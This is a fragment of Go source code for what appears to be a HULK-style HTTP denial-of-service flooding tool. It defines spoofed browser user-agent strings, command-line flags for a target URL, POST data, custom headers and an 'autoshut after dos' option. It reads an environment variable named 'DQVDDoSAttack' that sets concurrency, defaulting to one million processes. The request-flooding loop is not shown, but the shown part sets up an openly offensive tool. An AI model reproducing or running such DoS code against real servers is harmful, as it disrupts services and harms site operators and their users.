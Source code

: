 		"Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.0; Trident/5.0; chromeframe/11.0.696.57)",
		"Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.0; Trident/4.0; GTB7.4; InfoPath.3; SV1; .NET CLR 3.1.76908; WOW64; en-US)",
		"Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 5.1; Trident/4.0; SV1; Acoo Browser; .NET CLR 2.0.50727; .NET CLR 3.0.4506.2152; .NET CLR 3.5.30729; Avant Browser)",
		"Mozilla/5.0 (compatible; MSIE 9.0; AOL 9.7; AOLBuild 4343.19; Windows NT 6.1; WOW64; Trident/5.0; FunWebProducts)",
		"Mozilla/4.0 (compatible; MSIE 8.0; AOL 9.7; AOLBuild 4343.27; Windows NT 5.1; Trident/4.0; .NET CLR 2.0.50727; .NET CLR 3.0.4506.2152; .NET CLR 3.5.30729)",
		"Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.0; Trident/4.0; SLCC1; .NET CLR 2.0.50727; .NET CLR 1.1.4322; .NET CLR 3.5.30729; .NET CLR 3.0.30729)",
		
	}
	cur int32
)

type arrayFlags []string

func (i *arrayFlags) String() string {
	return "[" + strings.Join(*i, ",") + "]"
}

func (i *arrayFlags) Set(value string) error {
	*i = append(*i, value)
	return nil
}

func main() {
	var (
		version bool
		s       string
		agents  string
		data    string
		headers arrayFlags
	)

	flag.BoolVar(&version, "version", false, "print version and exit")
	flag.BoolVar(&safe, "safe", false, "Autoshut after dos.")
	flag.StringVar(&s, "s", "http://localhost", "Destination s.")
	flag.StringVar(&agents, "agents", "", "Get the list of user-agent lines from a file. By default the predefined list of useragents used.")
	flag.StringVar(&data, "data", "", "Data to POST. If present hulk will use POST requests instead of GET")
	flag.Var(&headers, "header", "Add headers to the request. Could be used multiple times")
	flag.Parse()

	t := os.Getenv("DQVDDoSAttack")
	maxproc, err := strconv.Atoi(t)
	if err != nil {
		maxproc = 1000000
	}

	u, err := url.Parse(s)
	if err != nil {
		fmt.Println("err parsing url parameter\n")
		os.Exit(1)
	}
